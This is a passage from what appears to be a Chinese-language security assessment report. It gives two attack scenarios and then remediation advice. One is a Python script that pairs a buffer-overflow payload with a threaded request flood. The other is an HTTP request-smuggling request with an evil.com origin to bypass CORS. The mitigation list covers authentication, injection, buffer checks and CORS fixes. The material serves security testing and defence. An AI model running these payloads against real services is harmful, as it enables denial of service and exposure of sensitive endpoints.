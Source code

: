 ### 场景2: 内存攻击 + DoS组合
```python
import requests
import threading

def memory_attack():
    # 触发缓冲区溢出
    payload = "A" * 1000000
    requests.post("http://target/api/echo", data=payload)

def dos_attack():
    # 大量并发请求
    for _ in range(1000):
        requests.get("http://target/")

# 组合攻击
threading.Thread(target=memory_attack).start()
threading.Thread(target=dos_attack).start()
```

### 场景3: 请求走私 + CORS绕过
```http
POST / HTTP/1.1
Host: target.com
Content-Length: 100
Transfer-Encoding: chunked

0

GET /api/sensitive HTTP/1.1
Host: target.com
Origin: http://evil.com

```

---

## 🛡️ 攻击缓解建议

### 立即修复 (Critical)
1. **移除硬编码认证**: 实施JWT或OAuth2
2. **修复JSON注入**: 使用安全的JSON编码
3. **添加缓冲区检查**: 验证写入缓冲区大小
4. **实施请求大小限制**: 防止DoS攻击

### 短期修复 (High)
1. **添加原子操作**: 保护共享状态
2. **实施路径验证**: 防止目录遍历
3. **修复CORS配置**: 限制允许的域名
4. **减少信息泄露**: 通用错误消息
